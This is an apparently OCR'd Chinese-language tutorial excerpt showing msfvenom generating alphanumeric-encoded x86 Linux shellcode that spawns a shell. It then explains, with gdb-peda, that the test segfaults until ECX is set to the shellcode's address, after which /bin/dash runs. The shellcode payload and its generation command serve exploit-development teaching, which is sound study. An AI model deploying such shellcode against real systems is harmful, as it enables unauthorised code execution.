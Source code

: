 ```
⚡ root@kali ⮀ ~ ⮀ msfvenom -a x86 --platform linux -p linux/x86/exec CMD="sh" -e x86/alpha_mixed BufferRegister=ECX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 129 (iteration=0)
x86/alpha_mixed chosen with final size 129
Payload size: 129 bytes
buf =  ""
buf += "x49x49x49x49x49x49x49x49x49x49x49x49x49"
buf += "x49x49x49x49x37x51x5ax6ax41x58x50x30x41"
buf += "x30x41x6bx41x41x51x32x41x42x32x42x42x30"
buf += "x42x42x41x42x58x50x38x41x42x75x4ax49x71"
buf += "x7ax56x6bx32x78x6ax39x71x42x72x46x42x48"
buf += "x64x6dx63x53x6fx79x4ax47x73x58x34x6fx64"
buf += "x33x30x68x33x30x33x58x44x6fx42x42x72x49"
buf += "x30x6ex6fx79x48x63x76x32x38x68x67x73x37"
buf += "x70x67x70x57x70x43x43x63x58x33x30x62x77"
buf += "x76x33x6ex69x4dx31x38x4dx4bx30x41x41"
⚡ root@kali ⮀ ~ ⮀ python
Python 2.7.9 (default, Mar  1 2015, 12:57:24)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
&gt;&gt;&gt; buf =  ""
&gt;&gt;&gt; buf += "x49x49x49x49x49x49x49x49x49x49x49x49x49"
&gt;&gt;&gt; buf += "x49x49x49x49x37x51x5ax6ax41x58x50x30x41"
&gt;&gt;&gt; buf += "x30x41x6bx41x41x51x32x41x42x32x42x42x30"
&gt;&gt;&gt; buf += "x42x42x41x42x58x50x38x41x42x75x4ax49x71"
&gt;&gt;&gt; buf += "x7ax56x6bx32x78x6ax39x71x42x72x46x42x48"
&gt;&gt;&gt; buf += "x64x6dx63x53x6fx79x4ax47x73x58x34x6fx64"
&gt;&gt;&gt; buf += "x33x30x68x33x30x33x58x44x6fx42x42x72x49"
&gt;&gt;&gt; buf += "x30x6ex6fx79x48x63x76x32x38x68x67x73x37"
&gt;&gt;&gt; buf += "x70x67x70x57x70x43x43x63x58x33x30x62x77"
&gt;&gt;&gt; buf += "x76x33x6ex69x4dx31x38x4dx4bx30x41x41"
&gt;&gt;&gt; buf
'IIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIqzVk2xj9qBrFBHdmcSoyJGsX4od30h303XDoBBrI0noyHcv28hgs7pgpWpCCcX30bwv3niM18MK0AA'
```

测试生成的shellcode时会发生段错误。因为执行shellcode时ECX中的值并不是shellcode的地址。

```
gdb-peda$ p $eip
$3 = (void (*)()) 0x804a040 &lt;shellcode&gt;
gdb-peda$ p $ecx
$4 = 0x0
```

此时需手动将ecx的值设置为0x804a040，然后继续执行。

```
gdb-peda$ p $ecx
$4 = 0x0
gdb-peda$ set $ecx=0x804a040
gdb-peda$ c
Continuing.
process 14672 is executing new program: /bin/dash
[New process 14689]
process 14689 is executing new program: /bin/dash
$ ls
[New process 14690]
process 14690 is executing new program: /bin/ls
peda-session-ls.txt  peda-session-shellcode.txt  shellcode  shellcode.c
```
